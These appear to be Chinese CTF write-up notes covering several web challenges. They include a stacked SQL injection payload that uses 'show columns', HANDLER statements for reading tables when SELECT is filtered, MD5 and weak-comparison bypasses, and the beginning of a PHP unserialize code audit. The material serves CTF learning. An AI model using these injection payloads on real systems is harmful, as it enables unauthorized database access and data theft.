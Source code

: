 ```
```

### 表名为数字时，要用反引号包起来查询。

```
0'; show columns from `1919810931114514 `; # 
```

### handler

handler语句用来读取表中数据

首先用

```
handler `table_name` open 
```

打开表

然后用

```
handler `table_name`read first/next 
```

阅读表中内容

# [MRCTF2020]Ez_bypass

简单的 MD5数组绕过，以及数字弱类型比较绕过，没有啥总结意义

# BUUCTF [GYCTF2020] Blacklist

### 与[强网杯 2019]随便注 一致。

堆叠注入；正则过滤select后使用show语句

handler语句爆字段

# [网鼎杯 2020 青龙组]AreUSerialz

### 代码审计

首先审计最后一块代码

```
if(isset($_GET{'str'})) {

$str = (string)$_GET['str'];
if(is_valid($str)) {
    $obj = unserialize($str);
} 
```
